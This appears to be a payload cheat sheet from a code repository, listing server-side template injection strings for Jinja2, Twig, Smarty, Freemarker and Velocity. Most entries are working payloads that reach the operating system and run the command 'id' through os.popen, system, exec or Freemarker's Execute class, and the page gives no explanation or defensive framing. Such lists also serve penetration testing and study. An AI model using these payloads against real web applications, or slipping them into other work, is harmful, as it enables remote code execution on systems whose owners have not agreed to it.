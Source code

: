 # Template Injection Payloads

## Jinja2 (Python)
```
{{7*7}}
{{config}}
{{''.__class__.__mro__[2].__subclasses__()}}
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

## Twig (PHP)
```
{{7*7}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{['id']|filter('system')}}
```

## Smarty (PHP)
```
{$smarty.version}
{php}echo `id`;{/php}
{literal}{php}echo `id`;{/php}{/literal}
```

## Freemarker (Java)
```
${7*7}
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
${"freemarker.template.utility.Execute"?new()("id")}
```

## Velocity (Java)
```
#set($ex=$rt.getRuntime().exec("id"))
$ex.waitFor()
#set($out=$ex.getInputStream())
```